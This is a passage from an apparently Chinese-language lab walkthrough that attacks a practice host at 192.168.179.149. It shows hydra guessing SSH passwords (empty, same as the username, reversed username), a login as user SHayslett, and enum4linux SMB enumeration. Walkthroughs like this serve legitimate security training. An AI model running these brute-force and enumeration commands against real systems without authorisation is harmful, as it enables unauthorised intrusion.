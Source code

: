 ### ssh服务

根据上面获得的能够登录的所有用户ssh\_user\_name，利用hydra检测是否存在同名口令、同名逆口令、空口令等

```plain
hydra -L ssh_user_name -e nsr ssh://192.168.179.149
```

[![](assets/1699929525-04d21d2c5356067c7d9076f2704c2a62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112135100-74e3e536-811f-1.png)

利用用户名SHayslett和密码进行ssh登录：

```plain
ssh SHayslett@192.168.179.149
```

[![](assets/1699929525-646a8de51b5f006592705390e844c53d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112135116-7efcf1f2-811f-1.png)

### smb服务

使用enum4linux探测smb服务

```plain
enum4linux -a 192.168.179.149 | tee smb_result
```
